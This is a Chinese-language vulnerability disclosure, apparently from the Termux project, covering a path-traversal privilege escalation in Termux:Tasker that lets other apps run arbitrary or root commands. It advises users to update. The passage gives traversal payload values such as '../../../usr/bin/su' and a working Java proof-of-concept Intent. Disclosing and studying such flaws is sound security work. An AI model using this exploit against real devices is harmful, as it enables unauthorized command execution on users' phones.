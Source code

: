 ```yaml
---
title:  "Termux应用程序漏洞披露"
redirect_from:
    - /cn/posts/general/2022/02/15/termux-apps-vulnerability-disclosures.html
page_ref: /posts/security/2022/02/15/termux-apps-vulnerability-disclosures.html
---
```


这是 `termux-app`、`termux-tasker` 和 `termux-widget` 的漏洞报告。

本报告发布于 `2022-02-15`， 距 离 `termux-app` [`v0.118.0`](https://github.com/termux/termux-app/releases/tag/v0.118.0)  发布还剩`30` 天， 距离谷歌应用商店构建版本的程序被官方地使用添加在 [`termux-tools` `v0.135`](https://github.com/termux/termux-packages/pull/7493) 中的终端横幅以及 [添加带有弃用信息的 `termux-app` README](https://github.com/termux/termux-app/commit/94e01d68) 弃用大约有 `150` 天。 这应该已经为使用谷歌应用商店版本 (最新版本 `v0.101`) 的用户留出足够的时间来切换到在 F-Droid 或 Github 发布的 `Termux` 主程序以及其插件应用，并为其他  `<= v0.117` 版本的 Termux 应用程序用户提供足够的时间更新为 `>= v0.118.0`版本。

**建议所有使用旧版本的用户立即更新到[`Termux` `v0.118.0`](https://github.com/termux/termux-app/releases/tag/v0.118.0)、 [`Termux:Tasker` `v0.5`](https://github.com/termux/termux-tasker/releases/tag/v0.5) 以及 [`Termux:Widget` `v0.13.0`](https://github.com/termux/termux-widget/releases/tag/v0.13.0)**

## 目录

- [1. Termux:Tasker 权限提升漏洞](#termuxtasker-)
- [2. Termux:Widget 权限提升漏洞](#termuxwidget-)
- [3. Termux 文件全局可读](#termux-)
##



## 1. Termux:Tasker 权限提升漏洞

此漏洞允许其他程序在 `termux` 上下文执行 **任意指令** 。如果 `termux` 被其他应用赋予了 root 权限，甚至可以允许在 `root` 权限的环境中执行。

本漏洞首先存在于 [`v0.1`](https://github.com/termux/termux-tasker/releases/tag/v0.1) (`2016-12-26`) 版本， `<= v0.4` 的任意版本都会受到该漏洞的影响。本漏洞被修复于 [`v0.5`](https://github.com/termux/termux-tasker/releases/tag/v0.5) (`2020-12-07`).

该漏洞源于 Termux:Tasker 应用程序的 [`FireReceiver.java`](https://github.com/termux/termux-tasker/blob/v0.4/app/src/main/java/com/termux/tasker/FireReceiver.java#L50) 文件中，该文件中没有对可执行文件的完整规范路径进行检查并按提供的原样执行。实际上， `Termux:Tasker` 应用程序仅允许执行 `~/.termux/tasker` 目录中的脚本，以防止其他应用程序在 termux 上下文中执行任意命令，但没有对可执行文件进行规范路径检查。其他应用程序可以发送 `../../../usr/bin/bash` 作为 `executable` 参数、 `-c "some termux context command"` 作为 `args` 参数以在 `termux` 环境中执行命令，或者发送 `.. /../../usr/bin/su` 作为 `executable` 参数、 `-c "some root context command"` 作为 `args` 参数以在 `root` 权限的环境中执行命令

注意，不一定是 Termux 插件的应用程序将 Intent 发送到 `FireReceiver`，任何应用程序都可以使用 Java 代码发送 Intent。 [`Termux:Tasker Exploit`](/assets/posts/globals/general/2022-02-15-termux-apps-vulnerability-disclosures/Termux_Tasker_Exploit.tsk.xml) 给出了如何使用 `Tasker` 的 Java Action 来模拟一个普通的应用程序发送 Intent。

### 1. POC

```java
Intent intent = new Intent("com.twofortyfouram.locale.intent.action.FIRE_SETTING");
intent.setClassName("com.termux.tasker", "com.termux.tasker.FireReceiver");

Bundle bundle = new Bundle();
bundle.putString("com.termux.tasker.extra.EXECUTABLE", "../../../usr/bin/bash");
bundle.putString("com.termux.execute.arguments", "-c \"echo -n 'I am '; whoami; echo 'creating exploit-file'; touch exploit-file; echo 'finding exploit-file'; find . -name exploit-file 2>/dev/null; sleep 5;\"");
bundle.putBoolean("com.termux.tasker.extra.TERMINAL", true);
bundle.putInt("com.termux.tasker.extra.VERSION_CODE", 4);

intent.putExtra("com.twofortyfouram.locale.intent.extra.BUNDLE", bundle);
context.sendBroadcast(intent);
```
